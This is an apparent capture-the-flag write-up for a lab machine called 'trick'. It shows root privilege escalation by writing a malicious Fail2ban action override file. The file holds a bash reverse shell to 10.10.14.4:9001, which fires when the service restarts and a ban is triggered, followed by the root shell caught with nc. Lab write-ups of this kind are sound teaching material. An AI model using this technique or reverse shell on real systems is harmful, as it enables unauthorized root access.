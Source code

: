 ## Fail2ban
Fail2ban is a IPS tool that uses log entries, among other things, to create firewall rules and ban IP addresses that meet certain requirements. Usually a ban will be given out in scenarios like x amount of incorrect authentication attempts using SSH.
### Enumeration
Use the SSH key that was found using the LFI to get a shell as user Michael
- The very first thing I do once landing a shell is check my user's groups/permissions -> on Linux I run the `id` command initially
```bash
$ id
uid=1001(michael) gid=1001(michael) groups=1001(michael),1002(security)
```
- The only important piece of information here is that my user belongs to the 'security' group
- First things first, I check the output of ```$ sudo -l``` to see if this user can run any commands as root....
```bash
$ sudo -l                                                                                                                 │
Matching Defaults entries for michael on trick:                                                                                                               │root@10.10.11.166s password: 
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin                                                    │
 
User michael may run the following commands on trick:                                                                                                         │
    (root) NOPASSWD: /etc/init.d/fail2ban restart
```
Ok, this privesc will almost for sure be through Fail2ban
### Information gathering
The only thing the allowed sudo command allows me to do is restart the Fail2ban service. In other words, the flaw I'm exploiting for the privilege escalation is most likely not with the sudo command itself, but with more generally with the Fail2ban service.
- The first thing I do in this situation is look for a configuration file that tells this service how to run -> `/etc/fail2ban/jail.conf` is what I'm looking for as it details what the service will do when a ban is given out.
- There is a lot of content that isn't relevant to the privesc in this file. The 2 lines that are really important are:
```bash
banaction = iptables-multiport
banaction_allports = iptables-allports
```
Once Fail2ban has decided an IP address needs a ban, it has a number of files located in `/etc/fail2ban/action.d/` that tell the service how to carry out a ban. Those 2 lines from the configuration file are references to files in the `action.d` directory. In other words, `banaction = iptables-multiport` refers to `/etc/fail2ban/action.d/iptables-multiport.conf`
- If I can overwrite that file, I can cause the Fail2ban service to execute whatever code I want by causing a ban to take place...
```bash
$ ls -la action.d/
total 288
drwxrwx--- 2 root security  4096 Sep  9 17:30 .
drwxr-xr-x 6 root root      4096 Sep  9 17:30 ..
[TRUNCATED]
-rw-r--r-- 1 root root      1420 Sep  9 17:30 iptables-multiport.conf
[TRUNCATED]
```
I can't overwrite that file, but notice what group owns this directory....the same group that my user belongs to!
Now the clever bit. In an update to Fail2ban (I am not sure which), it was made possible to overwrite any .conf file in `action.d` by creating a file with the same name but the .local extension. So, if I create a file `/etc/fail2ban/action.d/iptables-multiport.local`, Fail2ban will use that file instead.
### Exploitation
Now the privilege escalation is obvious: 
- Create file `iptables-multiport.local` that includes OS commands for something malicious (a reverse shell in this example)
- Place that file in the `action.d` directory 
- Use sudo to restart Fail2ban
- Spam the box with SSH attempts and catch the reverse shell

Malicious `iptables-multiport.local`:
```bash
$ cat /dev/shm/iptables-multiport.local 
# Fail2Ban configuration file
#
# Author: Cyril Jaquier
# Modified by Yaroslav Halchenko for multiport banning
#

[INCLUDES]

before = iptables-common.conf

[Definition]

# Option:  actionstart
# Notes.:  command executed once at the start of Fail2Ban.
# Values:  CMD
#
actionstart = bash -c 'bash -i >& /dev/tcp/10.10.14.4/9001 0>&1'

[TRUNCATED]
```
Place file in `action.d`:
```bash
michael@trick:/etc/fail2ban$ cd action.d/
michael@trick:/etc/fail2ban/action.d$ cp /dev/shm/iptables-multiport.local  .
```
Restart the service:
```bash
$ sudo /etc/init.d/fail2ban restart
[ ok ] Restarting fail2ban (via systemctl): fail2ban.service.
```
Spam the box with SSH attempts and catch the shell:
```bash
$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.11.166] 50620
bash: cannot set terminal process group (3501): Inappropriate ioctl for device
bash: no job control in this shell
root@trick:/# id
id
uid=0(root) gid=0(root) groups=0(root)
```